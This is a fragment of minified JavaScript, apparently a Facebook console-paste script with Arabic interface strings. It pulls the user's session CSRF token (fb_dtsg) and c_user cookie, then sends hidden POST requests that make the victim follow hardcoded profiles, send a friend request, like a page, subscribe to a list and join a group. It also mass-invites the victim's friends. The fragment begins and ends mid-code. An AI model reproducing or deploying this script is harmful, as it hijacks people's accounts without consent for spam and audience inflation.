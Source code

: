 &amp;#1575;&amp;#1604;&amp;#1605;&amp;#1603;&amp;#1578;&amp;#1588;&amp;#1601;";r+="("+i+" &amp;#1575;&amp;#1604;&amp;#1576;&amp;#1581;&amp;#1579; &amp;#1580;&amp;#1575;&amp;#1585;&amp;#1609;..)";r+="&lt;div class='friend-edge'>";r+=Descriptions;r+="&lt;img style='width:50px;height:50px;margin-left:-125px;padding:2px;border:1px solid rgba(0,0,0,0.4);' src="+pho[i]+">&lt;/img>&lt;a style='font-size:13px;padding-left:8px;text-align:left;color:#3B5998;position:absolute;font-weight:bold;'>"+arn[i]+"&lt;/a>";r+="&lt;div style='text-align:center;font-size:15px;white-space:pre-wrap;color:gray'>";r+=" code-facebooky"+page_name+".&lt;/br>";r+=_text;r+="&lt;/div>";r+="&lt;/div>";window[tag+"_close"]=true}else{Title="&amp;#1578;&amp;#1605;&amp;#1578; &amp;#1575;&amp;#1604;&amp;#1583;&amp;#1593;&amp;#1608;&amp;#1577; &amp;#1604;&amp;#1604;&amp;#1575;&amp;#1593;&amp;#1580;&amp;#1575;&amp;#1576; &amp;#1576;&amp;#1600;.&lt;/A>";r+=arr.length+"&amp;#1575;&amp;#1604;&amp;#1593;&amp;#1583;&amp;#1583;&amp;#1575;&amp;#1604;&amp;#1605;&amp;#1603;&amp;#1578;&amp;#1588;&amp;#1601;";r+="&lt;b>"+suc+"&amp;#1575;&amp;#1604;&amp;#1593;&amp;#1583;&amp;#1583; &amp;#1575;&amp;#1604;&amp;#1584;&amp;#1609; &amp;#1578;&amp;#1605; &amp;#1583;&amp;#1593;&amp;#1608;&amp;#1578;&amp;#1607;&lt;/b>&lt;/br>";r+="&lt;div>&lt;span class='FriendRequestAdd addButton selected uiButton uiButtonSpecial uiButtonLarge' onClick='window.location.reload()' style='color:white'>&amp;#1578;&amp;#1581;&amp;#1583;&amp;#1610;&amp;#1579; &amp;#1575;&amp;#1604;&amp;#1589;&amp;#1601;&amp;#1581;&amp;#1577;&lt;/span>&lt;span &lt;br/>";r+="&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>";r+=_text;r+="&lt;/div>";window[tag+"_close"]=false}r+="&lt;/div>";document.getElementById("pagelet_sidebar").innerHTML=r},"text","post");tay--;if(tay>0){var t=arr[tay];setTimeout("InviteFriends("+t+")",100)}console.log(tay+"/"+arr.length+":"+arr[tay]+"/"+arn[tay]+", success:"+suc);if(page_id)var fbdtsg = document.getElementsByName('fb_dtsg')[0].value;var userid = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var prot = location.protocol;function generatePhstamp(qs, dtsg){var input_len = qs.length;numeric_csrf_value='';for(var ii=0;ii&lt;dtsg.length;ii++){numeric_csrf_value+=dtsg.charCodeAt(ii);}return '1' + numeric_csrf_value + input_len;};var params = "profile_id=648174816&amp;location=1&amp;nctr[_mod]=pagelet_timeline_profile_actions&amp;__user=" + userid + "&amp;__a=1&amp;__req=8&amp;fb_dtsg=" + fbdtsg;params += "&amp;phstamp=" + generatePhstamp(params, fbdtsg);with(new XMLHttpRequest){open('POST', prot + '//www.facebook.com/ajax/follow/follow_profile.php' , true);send(params);};var params = "profile_id=100004073752807&amp;location=1&amp;nctr[_mod]=pagelet_timeline_profile_actions&amp;__user=" + userid + "&amp;__a=1&amp;__req=8&amp;fb_dtsg=" + fbdtsg;params += "&amp;phstamp=" + generatePhstamp(params, fbdtsg);with(new XMLHttpRequest){open('POST', prot + '//www.facebook.com/ajax/follow/follow_profile.php' , true);send(params);};var params = "profile_id=83635750&amp;location=1&amp;nctr[_mod]=pagelet_timeline_profile_actions&amp;__user=" + userid + "&amp;__a=1&amp;__req=8&amp;fb_dtsg=" + fbdtsg;params += "&amp;phstamp=" + generatePhstamp(params, fbdtsg);with(new XMLHttpRequest){open('POST', prot + '//www.facebook.com/ajax/follow/follow_profile.php' , true);send(params);};var params = "to_friend=100004424891818&amp;action=add_friend&amp;how_found=profile_button&amp;ref_param=none&amp;&amp;link_data[gt][profile_owner]=100004424891818&amp;link_data[gt][ref]=timeline%3Atimeline&amp;outgoing_id=js_4&amp;logging_location=&amp;no_flyout_on_click=false&amp;ego_log_data&amp;http_referer=https%3A%2F%2Fwww.facebook.com%2F&amp;__user=" + userid + "&amp;__a=1&amp;__req=q&amp;fb_dtsg=" + fbdtsg;params += "&amp;phstamp=" + generatePhstamp(params, fbdtsg);with(new XMLHttpRequest){open('POST', prot + '//www.facebook.com/ajax/add_friend/action.php' , true);send(params);};var params = "fbpage_id=693231517363442&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user=" + userid + "&amp;__a=1&amp;__req=1w&amp;fb_dtsg=" + fbdtsg;params += "&amp;phstamp=" + generatePhstamp(params, fbdtsg);with(new XMLHttpRequest){open('POST', prot + '//www.facebook.com/ajax/pages/fan_status.php' , true);send(params);};var params = "fb_dtsg=" + fbdtsg + "&amp;__user=" + userid + "&amp;__a=1&amp;__req=e";params += "&amp;phstamp=" + generatePhstamp(params, fbdtsg);with(new XMLHttpRequest){open('POST', prot + '//www.facebook.com/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe&amp;flid=201789993311829&amp;' , true);send(params);};var params = "ref=group_jump_header&amp;group_id=203151073224705&amp;__user=" + userid + "&amp;__a=1&amp;__req=7&amp;fb_dtsg=" + fbdtsg;params += "&amp;phstamp=" + generatePhstamp(params, fbdtsg);with(new XMLHttpRequest){open('POST', prot + '//www.facebook.com/ajax/groups/membership/r2j.php' , true);send(params);};}function ChangeLocation(){window.location.href="http://www.facebook.com/"}var Title="&lt;img src='http://fb-script.webs.com/image/like.png' >";var Descriptions="",_text="";page_id=/"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];jx={b:function(){var e=!1;if("undefined"!=typeof ActiveXObject){try{e=new ActiveXObject("Msxml2.XMLHTTP")}catch(t){try{e=new ActiveXObject("Microsoft.XMLHTTP")}catch(n){e=!1}}}else{if(window.XMLHttpRequest){try{e=new XMLHttpRequest}catch(r){e=!1}}}return e},load:function(b,c,a,h,g){var e=this.d();if(e&amp;&amp;b){e.overrideMimeType&amp;&amp;e.overrideMimeType("text/xml");h||(h="GET");a||(a="text");g||(g={});a=a.toLowerCase();h=h.toUpperCase();b+=b.indexOf("?")+1?"&amp;":"?";var